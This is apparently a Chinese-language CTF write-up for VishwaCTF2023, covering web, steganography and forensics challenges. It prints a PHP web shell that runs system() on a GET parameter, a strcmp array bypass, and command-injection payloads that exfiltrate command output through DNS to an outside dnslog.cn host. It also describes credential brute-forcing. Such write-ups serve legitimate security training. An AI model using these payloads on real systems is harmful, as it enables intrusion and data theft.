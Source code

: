 ## 【VishwaCTF2023】wp

### web

#### Payload

目录扫描，扫描到了`robots.txt`

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041515755.png" alt="image-20230404151550711" style="zoom: 50%;" />

我们访问`/robots.txt`：

```php
<?php
    if(isset($_GET['cmd'])){
        system($_GET['cmd']);
    }
    else {
        if(isset($_GET['btn'])){
            echo "<b>System Details: </b>";
            system("uname -a"); 
        }
    }
?>
```

>  `uname`（英文全拼：unix name）命令用于显示操作系统信息，例如内核版本、主机名、处理器类型等。。
>
> uname 可显示电脑以及操作系统的相关信息。-a表示所有

很明显，这是命令执行，我们直接传参即可：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041519245.png" alt="image-20230404151920194" style="zoom:33%;" />

发现flag藏在环境变量中



#### Mascot

扫描一下目录，发现git泄露：

![image-20230404152202468](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041522644.png)

但是我们使用`GitHack`下载不下来，但是里面有一个 `FLAGGGGG.md`

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041526557.png" alt="image-20230404152658487" style="zoom:50%;" />

下载得到flag



#### Eeezzy

> I forgot my login details again!

view.php

```php
<?php

    session_start();
    $_SESSION['status']=null;

    $flag="";
    try {
        if (isset($_GET['username']) && isset($_GET['password'])) {
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)
                $_SESSION['status']=$flag;
            else
                $_SESSION['status']="Invalid username or password";
        }
    } catch (Throwable $th) {
        $_SESSION['status']=$flag;
    }

?>
```

`strcmp()`函数可以使用数组绕过，

> **strcmp比较的是字符串类型，如果强行传入其他类型参数，会出错，出错后返回值0，正是利用这点进行绕过。**

这里我们只能让password为数组：

![image-20230404154539089](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041545169.png)



#### aLive

> In my college level project I created this website that tells us if any domain/ip is active or not. But there is a catch.

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041619439.png" alt="image-20230404161910385" style="zoom: 33%;" />

打开发现一个可以检测站点的输入框，检测只会提示是否active，并没有回显

看了wp，我知道了需要使用`DNSlog平台`，之前了解过，但是没有使用过[DNSlog](http://dnslog.cn/)

> 什么是DNSlog?
>
> 在某些无法直接利用漏洞获得回显的情况下，但是目标可以发起 DNS 请求，这个时候就可以通过这种方式把想获得的数据外带出来。
>
> DNS 的全称是 Domain Name System（网络名称系统），它作为将域名和 IP 地址相互映射，使人更方便地访问互联网。当用户输入某一网址如 www.baidu.com，网络上的 DNS Server 会将该域名解析，并找到对应的真实 IP 如 127.0.0.1，使用户可以访问这台服务器上相应的服务。
>
> 了解到了什么是 DNS，那么什么又是 DNSlog 呢？
>
> DNSlog 就是存储在 DNS Server 上的域名信息，它记录着用户对域名 www.baidu.com 等的访问信息，类似日志文件
>

我们使用DNSlog平台，生成一个DNS服务器：

![image-20230404162337417](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041623501.png)

然后我们使用输入框输入该域名，记得加上三级域名：

```
123.r736ym.dnslog.cn
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041626772.png" alt="image-20230404162601657" style="zoom: 25%;" />

成功外带，回显数据。

测试了一下，发现是RCE，于是我们如下构造：

```
`whoami`.r736ym.dnslog.cn
```

成功命令执行，说明是root用户

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041628538.png" alt="image-20230404162819440" style="zoom:33%;" />

```
`sort f*`.r736ym.dnslog.cn
```

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041629984.png" alt="image-20230404162930890" style="zoom: 25%;" />

获得flag



#### spooky

> I forgot my login credentials again!!

一个登录界面，sql注入无果，使用`dirsearch`扫描：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041841368.png" alt="image-20230404184137206" style="zoom:33%;" />

访问`/sitemap.xml`：

![image-20230404184245867](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041842940.png)

发现存放用户名和密码的文件，我们使用bp爆破一下：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041843484.png" alt="image-20230404184326412" style="zoom:33%;" />

注意攻击模式要选择这种（能够计算笛卡尔积）保证所有情况

![image-20230404184414191](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041844246.png)

使用账号密码登录

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041846712.png" alt="image-20230404184600637" style="zoom:33%;" />

提示权限为user，可能需要改为admin

![image-20230404184640710](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041846769.png)

加上 `&admin=true`





### Steganography

#### Can you see me?

> A magician made the seven wonders disappear. But people claim they can still feel their presence in the air.

将图片使用foremost分离，得到一个压缩包，里面有一个wav文件，我们使用`Audacity`打开：

![image-20230404180624552](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041806682.png)

选择频谱图，得到flag



#### Guatemala

使用010打开文件，发现是GIF图片

![image-20230404181143781](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041811545.png)

发现一串base64编码：

![image-20230404181545407](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041815453.png)

或者使用`exiftool`

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041819013.png" alt="image-20230404181922920" style="zoom:33%;" />

解码得到flag：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041816359.png" alt="image-20230404181643275" style="zoom: 33%;" />



#### I LOVE YOU

> There is an audio file given below... It is not so difficult but you will find it's sound very deep

根据提示，我们使用 `DeepSound` 去分离隐写在wav中的文件：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041932379.png" alt="image-20230404193252238" style="zoom:33%;" />

得到`welcome.exe`，看图标，很想使用python打包的exe文件，

我们使用工具`pyinstxtractor`进行反汇编：

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304041934630.png" alt="image-20230404193422962" style="zoom: 33%;" />

然后使用pyc[反编译网站进行反编译](https://tool.lu/pyc/)，得到flag

![image-20230404193515571](https://raw.githubusercontent.com/leekosss/photoBed/master/202304041935678.png)



### Forensics

#### The Sender Conundrum

> Marcus Got a Mysterious mail promising a flag if he could crack the password to the file.

打开电子邮件，叫我们猜一个人名

```
Hello Marcus Cooper,
You are one step behind from finding your flag. 
Here is a Riddle: 
I am a noun and not a verb or an adverb.
I am given to you at birth and never taken away,
You keep me until you die, come what may.
What am I?
```

我们使用字典进行爆破，但是都没有，最后使用了kali自带的词典：`rockyou.txt`，爆到了

<img src="https://raw.githubusercontent.com/leekosss/photoBed/master/202304042151462.png" alt="image-20230404215130384" style="zoom: 33%;" />

解压得flag




